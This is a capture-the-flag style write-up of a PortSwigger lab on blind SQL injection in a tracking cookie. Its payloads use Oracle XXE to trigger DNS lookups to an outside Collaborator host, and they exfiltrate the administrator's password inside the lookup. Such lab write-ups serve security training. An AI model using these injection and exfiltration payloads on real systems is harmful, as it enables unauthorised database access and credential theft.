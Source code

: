 # Blind SQL injection with out-of-band data exfiltration | Mar 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration), you'll learn: Blind SQL injection with out-of-band data exfiltration! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301125654.png)

**Cookies:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301125711.png)

When we go to `/`, it'll set a new cookie called `TrackingId`.

This looks like a tracking cookie for analytics.

The SQL query may looks like this:

```sql
SELECT TrackingId FROM tracking WHERE TrackingId = '<our_cookie_value>'
```

**That being said, we can try to perform SQL injection.**

**To do so, I'll try to trigger an SQL query error:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301125753.png)

However, it seems like we don't recieve any response when we modified the tracking cookie.

Maybe carries out the SQL query **asynchronously**?

The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

### Dectecting blind SQL injection with DNS lookup

**In the PortSwigger's [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), there's a DNS lookup payloads:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301125818.png)

Since we don't know which DBMS (Database Management System) is using, we need to try them all one by one.

**First, go to Burp Suite's Collaborator and click "Copy to clipboard":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301125842.png)

**Then, we'll try Oracle XXE vulnerability to trigger a DNS lookup:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual
```

**Payload:**
```sql
UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

**The SQL query may become:**
```sql
SELECT TrackingId FROM tracking WHERE TrackingId = 'UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--'
```

Let's send the payload!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130156.png)

> Note: The payload needs to be URL encoded.

**Burp Suite's Collaborator:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130205.png)

We've recieved 4 DNS lookups! Which means the `TrackingId` cookie is vulnerable to out-of-band SQL injection!

### Data exfiltration via blind SQL injection with DNS lookup

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application.

**In the PortSwigger's [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), there's a DNS lookup with data exfiltration payloads:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130326.png)

**Since we found the DBMS is Oracle, we can use Oracle's payload:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Then, in the lab background, there's a table called `users`, with columns called `username` and `password`.

**To exfiltrate `administrator` user's password, we can use the following payload:**
```sql
UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mxnzb3id8s5c4ybbbezsdqg8xz3qrhf6.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

This input reads the password for the `administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130722.png)

**Burp Suite's Collaborator:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130736.png)

Nice! We successfully exfiltrated `administrator`'s password!

**Let's login as `administrator`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130826.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130831.png)

I'm user `administrator`!

# What we've learned:

1. Blind SQL injection with out-of-band interaction